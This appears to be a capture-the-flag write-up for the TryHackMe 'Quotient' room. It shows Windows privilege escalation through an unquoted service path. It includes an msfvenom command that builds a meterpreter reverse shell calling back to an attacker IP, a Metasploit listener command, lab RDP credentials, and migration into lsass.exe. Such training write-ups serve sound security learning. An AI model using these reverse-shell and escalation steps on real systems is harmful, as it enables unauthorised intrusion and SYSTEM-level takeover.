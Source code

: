 ```yaml
---
description: https://tryhackme.com/room/quotient
---
```


# Quotient

## Nmap

```
sudo nmap 10.10.75.30 -Pn -sV -sS 

PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### RDP Login

Starting out we connect via RDP with the credentials provided by the room.

```
xfreerdp /v:'10.10.75.30' /u:'sage' /p:'gr33ntHEphgK2&V' +clipboard /dynamic-resolution
```

### Powerup

Now connected to the target system as the user sage we execute `Invoke-AllChecks` with `Powerup` and identify a binary service with an unquoted path that executes in the context of SYSTEM.

![](<../../../.gitbook/assets/image (4) (2) (1) (1).png>)

### Unquoted Service Path

Viewing the file permissions in the path `C:\Program Files\Development Files\Devservice Files\Service.exe`  we see that we do not have permission over service.exe, but the Users principal does have the ability to create files within `C:\Program Files\Development Files`.

This is enough for us to perform the unquoted service path privilege escalation vector.

![](<../../../.gitbook/assets/image (7) (1) (2).png>)

Due to the way Windows searches for binaries that are not wrapped in quotes with spaces, the system will search for an executable in the following order when the service is started.

1. C:\Program.exe
2. C:\Program Files\Development.exe
3. C:\Program Files\Development Files\Devservice.exe
4. C:\Program Files\Development Files\Devservice Files\Service.exe

As we have write access to `C:\Program Files\Development Files` we will be targeting option number 3.

### Building the attack

Firstly to perform the attack we create a `meterpreter` reverse shell called `Devservice.exe`

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.11.54.237 LPORT=80 -f exe -o Devservice.exe 
```

After the payload is built we then upload it to the target system and place the executable in `C:\Program Files\Development Files\Devservice.exe` . We do not have permission to restart the service, we do however have the ability to restart the target system.

Start a listener with `Metasploit`.

```
sudo msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.11.54.237; set lport 80; exploit"
```

### Triggering the payload

Then reboot the target system. After a minute or two we should receive a shell back.

![](<../../../.gitbook/assets/image (2) (2) (1).png>)

For some reason my `meterpreter` shell would soon die after connecting. As such I migrated to an alternative process (lsass.exe).

![](<../../../.gitbook/assets/image (6) (3) (1).png>)

### Root flag

With confirmed **SYSTEM** level access I was then able to retrieve the administrator's flag.

![](<../../../.gitbook/assets/image (67) (3).png>)
